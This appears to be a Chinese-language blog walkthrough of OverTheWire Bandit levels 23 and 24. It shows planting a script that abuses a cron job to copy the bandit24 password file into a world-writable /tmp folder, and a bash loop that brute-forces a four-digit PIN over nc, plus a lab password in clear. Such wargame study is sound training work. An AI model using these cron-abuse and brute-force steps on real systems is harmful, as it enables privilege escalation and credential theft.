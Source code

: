 ```
Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

```

废话不多说，直接看脚本内容：

```
myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 "./$i"
     rm -f "./$i"
    fi
done

```

可以看出来以上脚本会将/var/spool/bandit24文件夹下的所有文件执行一遍并清除。根据crontab可知每分钟执行一次。那就好办了，我们将写好的脚本放入这个文件夹，bandit24每分钟就会执行脚本，而这个脚本具有bandit24的权限。恩，你懂的。

```
cat /etc/bandit_pass/bandit24 > /tmp/save/pass

```

先在/tmp下新建save文件夹，chmod 777 ，然后将以上脚本放入上述文件夹里面，等一分钟。泡一杯咖啡，丁！去/tmp/save/文件夹下可以看见pass。如果发现没有任何东西，请考虑权限问题(chmod)。

Bandit Level 24 → Level 25

```
Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

```

这是比较有意思的一关，写一个脚本进行穷举,于是我一开始写了一下这个：

```
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in $(seq 0 9999)
do
if
    echo $pass $i| nc localhost 30002 | grep Wrong>/dev/null
then
    echo $i
else

    echo $pass $i| nc localhost 30002 > result
    break
fi
done

```
